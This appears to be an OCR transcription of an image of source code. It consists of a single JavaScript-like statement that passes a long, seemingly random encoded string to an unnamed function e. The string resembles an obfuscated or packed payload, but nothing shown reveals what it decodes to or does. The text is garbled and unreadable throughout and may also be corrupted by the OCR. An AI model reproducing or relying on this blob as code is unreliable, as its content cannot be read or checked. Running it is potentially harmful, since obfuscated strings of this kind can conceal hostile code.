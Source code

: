 s=e(d,"KE6o%ndpLrP)<#ND6do%<NdLi6Pdod#OdP%padr#on#pnpEnrD%pN6xPP6o<#Np20PP%Lp%dNnL,hpPNo##ruN)6%6#<pdnoEr)>%#NPo6D%Pp%)NoE%#%%LN6p<%o##ppEEP)%n#DprEoP#%pNEp)EnP6pp#drrnLNPL##LPDy<)o%#NpLEE))n%DNrLoE#)pnEN)LnD6r66d<ZnPoPNod<7dL#6dr9o%<%nNDLN%rEoo<DplDr%N1N#Edordoo<Pd%DN#PLdE<ddb)rPo%<N)<dpvLr)6v)Pp&DD)Eop#N5dPdoP#%dNnD;)PPoP#DLEP%%<#Lp6i<Np)n%NNo6ND<PP%nNLp%<Prp%o#rE6<#%dN5pPdpEE)P%)N<LP#,rp%nNrp##6LNnDPwn%#%PE6)<odNY6rnoNP%pdD<p6E6PdddE%P#NNrp66)<ndoDDPLr6<pLodDEr<6r<dE%NErMoE<<DdPE6P<%nN%PDpr<o6<rn#DnP66#<d%DHPrDo<<ndnD#o6#dddA_rPpnoP#DdoEnPrDVPNdnEpoLEod<+dP9LNo<#pp)<6P6oD#<dD<%)norNn6<Ed)6%rNLpo*))d%E#Po&6EP#n6Nfo6Dr)n%DNLdpEoP)=6#6%r#SP<n#rNpNEp)s%)D6p)6(Lp6E))nn#d)DnLP%L66E<n%DDnr6ENnnNNLL<6VDcop%dNdn)NddD6L<6dMD<PnrD<%La)<Pd<DnrLoL<#dPv)6<N6dcDPr%LE6)#%dnOdP%NP)ppo7LP6o)#Lp%)PdNNN)Ldn)<dnDB)ppom}P%o)#E9dPnoP#%dNp)E6r#%##NcPPPoN#Lp6nslpP#o)#)poPL%##<pdEsDEPrn6)<p)ED)P%ENLppEo%LDop<Ed)kr%noNpLd#6rr%pD6Lo66)on)P6pmE))EnpL%6r)Ln6N<<)dNEoPr%##EpnE)Pd%6#r6%<}nLD6L<pPEInPD<LN6L<6Prop#ppokpP_%ENn6<<<dGDPr%dDo<#dn#Drr)<PpuDNrLo6ED#PdEI<PLNN)odo-nPPoE#L;%PLoL#6d<nENrLN6L)n%rNDLn6%)pkP)6oN#Lp6n6WDPNoN)PppEP)nn_)rpLEo)H%6pLoLP<%dN&Pp%E#)pn5DPr%o##ppEEP)%n#Dpr:d#)oPbE)pn)Nno<EopSEp)E%)NnpDEr)o%#NpLEE))n%DNrndDoLP6%)N<dnpUo6d<pnPD%LNpL6N)#nrDnpo6LnN!%r66<<d)pd6D#P66#L6%DDrP66D<rd<rLon<<ddH^NNL%DDdL,rr<od#S#EdrE6rDop#Pp<P*o##%dNuLDdL<(rpJEnP%oN#L)%p)En)o%N)nL6E<PooDNEEvPN%%#NpLn<NDr#6)p)E%PN%LN6p<EdP/LrN%LrEL)6%<6DNNL#6LPDndNnLEXd)Dn#L%6r)Ln6N<#6LDE#)nnP#LLNE#<DnnD<6%<LnLD6L<pP6r<NdTDo%LE3)#doDn6)<%nN6LLopNLdn)o)r%or<Ld6D<#)PEoD<#dNNDrp6##ddDmLo%#PdLM6r<LPEE)LnL#DLEErP#noNrLpE)dN/DP6o<#d)npLGrP)%E#ppDPd%o#Pp%:ND<r6ENpdEdPP%%#N<)ppEN)<%nN<E%)6%LN6p<nrED)<%rpNED)6%<NdNppD6LrdnEDdLD)dn%NPL%ENED)onrN)6&<Yn%NNLLd%oE<Pd%Drr6)NdED6L<6d(dPDoL#6nrD6))%<<66P<pnNDLr6LIEd)bDPr)6N<Ld6%<g6rE%o<rpX;)o6#rdd_8rPro%L)LnLEdp#opN%pENpL#6n<E3dPnoP#%dN%NboPD%P)E{PPnoN#Lp6dNPdnE#Pp%AND)rpENPLnNDrro6/<nnoDDrP6n<<%nNYp)Nop<Ed6_dnnDqPHLDo%<N<LXEP)%P=nENrdLED)6NPLPEN)Ln6%oDnr66d)LEDLL6))<ndDcNErooc<odnD<Lp6o)DD%rL6L<6n<o#DnrNEp<odP:Lrn6r<nDPrL6N<Ld6pRDpPoond%t%rLo6<<)#dDS<P:o6r)C6P%od#wdPn%DDPP%d#ndr5<rD#%pdjLP6o<EpNnpNEoL%orN%prPdnE#Pp%vND6)E%nN%oWDPP#n(#rLdEE)r1.<Npr2D)nN6LpEd)z%P6nDoL<6Er6%pNoLN6o<CdELoE<)dn,NPL%EN)Ln6N<L#6{)Pn%dzN#rooE)Dd6ND6%#6nLD6L<pno_)Dd6PNpEoY#6n)DNrNoo# pE)6p6oL#ndo}L6N#%d6D<rdpEoD#Ld#N<rPon#Ld%N#rr6DdL6%r<od#1<EdrVPr)%E#rd)<HPN%oLNnHGpPPDd)LpDkdnN>nr6np9pPr%N#np<<LrnoDNLprEP)L#NLEE6P<%dooNNLoENr<nrNEp)EN%PNDpNEL)6Pm6N<ndE9dro6r#dn#DrrnN)L%EN)Ln6N<Ld6_DPn%DnLL66)<)rnDDLr66o))ddL<%<<3nPD%))nnNDLr6o)#npDEL)6n)DnrDoL#EPND%NEn<odnl%nV6pL%6)<nnDDrro6#<pdED)rn6D<rdoD#dPE)rNoL#6)%d)BNnPE<NodP<6drDd))d)s#)6orNM6<DrPo%<##pNE<%6N)pdE2PPL)%oN<nn6E)Ln6#DL666LP%N##pPEn%P&npNEL)6)%nPD%LP6pLLEp)EL<Ep<onNNrL06E<REPNrLD6pLod/NrrrN)<+%o<#L)onrE%n<E6d<LnPD%LNdrop#Hdn#LL)6D<pDLr<6<<dd(o)+LP66r<ndpN%rD}#PLDNPno6<<ddnoNNLdBD)D%P##LPE#P)%#N<p##6p.2dPCoP%L#pd)R#o<#LpRhPP%r#EDp6ErPd%G#P<dpphDLn%)N%L%E<)o%PN%ppEN%dN%pPE%PNrEn8N6Ln)FnYN%pNELD#P#%DD%p)66%ND%L6E<)dPp%)N#r6DN<EnN<rLL6o<1n6LL%P)<ndDT)pnEN)LnED)rnoN#Lp6E))nnNDLrEdN)%Psp#bn#DdrnoPL{np)%n)DnLD6r<on#DprE6)<nnDDrro6#rP%E<NdL56##P)%%#rnp or)%E#PdPDorDondNErP6o<#d)oprE%)pDL)NpnE%P)DP<#p#E#)dnE#LpnPP%##NpLE6D6rdoorPndE#)pnnD9Ed)r%PN%pNnr6;)nnoNELNE#)#ndL66E)dnjNP<pLP6E)nnpLd6))Pn%NN#)pdD#PLoo#rdLFoPXop#)6d<pnPD%LNd)6P)#d%DNLDoVnNMpr66<<dPodr ErQ6r#d%6uLrEop<rpn}pP%opddErrPo%<N)npE )P%6o<DdpD#L)%d#NdD!NPE%p)dpE/dPzo)#N%)EL)6%Pp6EdPd%i#P<pdoNPp%66))d6Nop#EppLE<P<%dNy<<prE6)#%nNEodDo)PnrpN6n)6%<Nd#odNcdLDoD<Pn#WPr#6)<#d)D#n6D#Ld6v)Prpn#DLr)#<P6nrDLLD#Nr<n)DDLr6D<<nLLNo6<6n<DdNnrLoG<#n)D#%<:<)7%#r%oo<Ld6D<#Dr%od<rd6rLo#<<ddbi8Err%6##p6E6rpo<#DdrEEoL#pd<OdP^Ldon#Id#qNo<Nnpb*PP%pD%#Ndp)<drooD#pp#EdPdD<<rpnY)%%NrpLE6P<r<%rN<LL6oPr%N#ELrEn)<N%rdEL)6%<nLN6r6En<En)Npr=ED)%6%)o%#NrLp6E))nXD6L%EN<EnLN#ndDrLP6%)NP<dEN{Lpo6<EnrQ6r)<6ddDdrz6PEp<odPvLrEoLL;%6!orN<LpED<rdoTEN)#n##NLEEN<nnp#)LLEE)=%)NPp##cpEc%rNoLE%)n%#NNpD6)<E8LPdo<#dp_pNBN)nVrp6ELPd%k#P<pdoNPp%6q)pnrDErd6#))n#P<nrN1pPE%Dd)pn6r<dPEDdPoWN#LDEp)NBd#bLdEn<p%#D%E<<dneNPL%pEE#<%%#DdLL*_<rnEDopr6E)pdcDrr6)NdPD6L<6dEoPDod<OppqLP6oD#opo,nPP%dNEp)RLProDr%o6<Ld6D<NPProP<rDNP)o6<<ddnoNDpdf&PD%oNrp)66)<noN1Lp6d<)%)DLLPUndN>NP6o<#d)Ed6N#L#6P)pw<)E%Q#Pp%dnE&P)n_#)do